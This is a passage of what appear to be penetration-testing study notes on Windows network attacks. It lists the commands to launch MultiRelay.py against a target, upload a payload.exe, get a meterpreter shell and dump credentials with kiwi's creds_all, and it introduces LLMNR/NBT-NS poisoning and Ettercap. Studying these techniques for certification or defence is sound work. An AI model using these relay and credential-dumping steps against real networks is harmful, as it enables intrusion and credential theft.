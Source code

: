 Launch MultiRelay.py (in another tab):
```python
python MultiRelay.py -t <target ip> -u ALL
-u = user // -t =target
```

> with the multiRelay shell we can upload files
 upload /root/data/payload.exe = path of our file
 C:\windows\temp\payload.exe  = the file is save in this path


> we can gain meterpreter shell
 then load kiwi
 creds_all


LLMNR / NBT-NS Poisoning

![Alt text](/assets/images/posts/2023-11-19-ecppt/20.png){: .align-center}

## Attacking Tools

### Ettercap
Ettercap is an open source program that combines a packet sniffer For differents protocols, but it also offers password cracking features.
```
sudo ettercap -G
-G = graphical interface
```
